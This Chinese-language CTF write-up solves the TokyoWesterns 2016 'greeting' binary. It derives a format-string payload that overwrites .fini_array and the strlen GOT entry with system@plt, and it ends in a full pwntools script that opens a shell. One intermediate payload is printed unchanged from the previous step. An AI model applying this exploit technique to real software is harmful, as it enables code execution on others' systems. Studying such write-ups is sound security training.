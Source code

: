 # 3.3 Tokyowesterns 2016 greeting
实验环境

```python
ubnuntu 16.04.7 x32
```
先看下文件信息

```cpp
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)

```
运行程序

![image](images/1gmXvC_L4VyKGVvpa-90mOYqRUocCZROlqgGbkdaTx4.png)

可以看到`000011112222`的输出偏移了两位，进行校正后如下

![image](images/Pqfqvf_lvVYNxTV_wEyVykUfH9yAZO-yc9r227q6s5U.png)

从上面能够得到偏移为12， 13， 14，15 这四个位置。

接下来使用`IDA`来反编译程序

```cpp
// main
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+1Ch] [ebp-84h] BYREF
  char v5[64]; // [esp+5Ch] [ebp-44h] BYREF
  unsigned int v6; // [esp+9Ch] [ebp-4h]

  v6 = __readgsdword(0x14u);
  printf("Please tell me your name... ");
  if ( !getnline(v5, 64) )
    return puts("Don't ignore me ;( ");
  sprintf(s, "Nice to meet you, %s :)\n", v5);
  return printf(s);
}

// getline
size_t __cdecl getnline(char *s, int n)
{
  char *v3; // [esp+1Ch] [ebp-Ch]

  fgets(s, n, stdin);
  v3 = strchr(s, 10);
  if ( v3 )
    *v3 = 0;
  return strlen(s);
}
```
从上面可以看出在`return printf(s)`处存在格式化字符串漏洞，同时在`getline`函数内部存在`strlen`函数，该函数也是接收一个字符串作为参数。那么我们可以把`strlen`函数的`got`地址修改为`system`函数的`plt`地址。

还有个问题就是当`return printf(s)`调用完后才能触发漏洞，但是此时函数已经退出了，所以这里需要引入`.fini_array` 来进行处理。在`linux`文件中存在`.init_array` 和`.fini_array` ，前者是在`main`函数执行之前会执行该节内部的代码，后者是当函数退出时候执行其内部的代码。

所以这里我们可以把`getline`函数的地址写入到`.fini_array`内部，当程序退出后会继续执行`getline`函数，而`getline`函数内部的`strlen`函数已经被我们替换成了`system`函数的地址，实际上是执行`system`函数。



首先获取`strlen`函数的`got`地址：`0x08049a54`

![image](images/FFtXTNavjGcxd-eMspEm1FUgovdGmIh2l7c2bRFDxKQ.png)

`system`的`plt`地址：`0x08048490`

![image](images/yk5wFr56PUCw2HJljzI1BnTyJy_q5J05WiByHAMP3t4.png)

`.fini_array`的地址：`0x08049934 - 0x08049938` 

![image](images/OBt_uO1QQwXJn_1iJYP6L1ERfMv91f2SYZAi8VJs3wU.png)

那么接下来首先做的是使用`getline`函数地址覆盖`.fini_array`的地址，因为`getline`函数需要传入参数，所以我们可以把地址`0x08048614` 覆盖到`.fini_array`中。

![image](images/3TthKBosZLmedD3H9NvYd_fSsDC-FAQE-gPfNt9mRZY.png)

目前来看我们所需要修改的信息如下：

```python
0x08049a54 ==> 0x08048490    # 覆盖 strlen
0x08049934 ==> 0x08048614    # 覆盖 .fini_array         
```
然后我们要做的就是查看地址`0x08049934` 的值是多少，我们要把他的值覆盖为`0x08048614` 。从`IDA` 的代码中可以看到`printf`输出的字符串有`Nice to meet you, ` ，然后我们的输入还存在`2` 个偏移地址，加起来就是`20`个字符。

接着我们还要传入要修改的地址，每个的长度为4个字节

```cpp
p32(0x08049934)    // .fini_array 低位
p32(0x08049934 + 2)    // .fini_array 高位
p32(0x08049a54)        // strlen got 低位
p32(0x08049a54 + 2)     // strlen got 高位
```
把地址长度和字符长度加起来后为`0x24` ，所以当我们输入如下的时候

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%12$n%13$n%14$n%15$n"    # n 只写入低位，hhn, hn 可写入高位   
```
此时`.fini_array` 和`strlen_got`地址处的值均为`0x00240024`

![image](images/Z6IvqM_juL4y_2CianCVLKfBBUjLWHBiIQ8S96Ye8XI.png)

现在可以进行一下简单的数学运算，把`0x0024` 增加到`0x8614` : `0x8614 - 0x0024 = 34288` 

此时的`payload`如下，并且再次进入`gdb`调试

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%34288x"                # offset 12
payload += "%12$n%13$n%14$n%15$n"    # n 只写入低位，hhn, hn 可写入高位   

```
此时的值为`0x86148614`

![image](images/N7e-TgWtoPrNsjDT_lPBjC3coW7D1TbwizM_GU82clQ.png)

可以看到`.fini_array`和`strlen_got`的高位地址都改为`0x8614`了，所以这两个稍后一起修改。

我们先修改`strlen_got`的低位地址，`0x18490 - 0x8614 = 65148` ，这里需要溢出一位，但是对程序没有影响。

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%34288x"                # offset 12
payload += "%12$n"    # n 只写入低位，hhn, hn 可写入高位   
payload += "%65148x"                # offset 14
payload += "%14$n"
payload += "%13$n%15$n"

```
此时的值如下

![image](images/b6ptJB8nk70aDF04f-DkL6xSusNDe0jfxWmNZi61SH8.png)

接着修改这两个位置高位的值：`0x10804 - 0x8490 = 33652` ，此时`payload` 如下

```python
payload = "xx"
payload += p32(0x08049934)        # .fini_array addr
payload += p32(0x08049934 + 2)
payload += p32(0x08049a54)        # strlen_got addr
payload += p32(0x08049a54 + 2)
payload += "%34288x"                # offset 12
payload += "%12$n"    # n 只写入低位，hhn, hn 可写入高位   
payload += "%65148x"                # offset 14
payload += "%14$n"
payload += "%13$n%15$n"
```
修改成功

![image](images/V6J3_xXxq3qhbivSO_UX6k8Advj1zK_34pwHn1AMqLc.png)

最终的`payload` 如下

```python
from pwn import *

# Establish the target process
target = process('greeting')
gdb.attach(target, gdbscript = 'b *0x0804864f')

# The values we will be overwritting
finiArray = 0x08049934
strlenGot = 0x08049a54

# The values we will be overwritting with
getline = 0x8048614
systemPlt = 0x8048490

# Establish the format string
payload = ""

# Just a bit of padding
payload += "xx"

# Address of fini array
payload += p32(finiArray)

# Address of fini array + 2
payload += p32(finiArray + 2)

# Address of got entry for strlen
payload += p32(strlenGot)

# Address of got entry for strlen + 2
payload += p32(strlenGot + 2)

# Write the lower two bytes of the fini array with loop around address (getline setup)
payload += "%34288x"
payload += "%12$n"

# Write the lower two bytes of the plt system address to the got strlen entry
payload += "%65148x"
payload += "%14$n"

# Write the higher two bytes of the two address we just wrote to
# Both are the same (0x804)
payload += "%33652x"
payload += "%13$n"
payload += "%15$n"

# Print the length of our fmt string (make sure we meet the size requirement)
print "len: " + str(len(payload))

# Send the format string
target.sendline(payload)

# Send '/bin/sh' to trigger the system('/bin/sh') call
target.sendline('/bin/sh')

# Drop to an interactive shell
target.interactive()
```
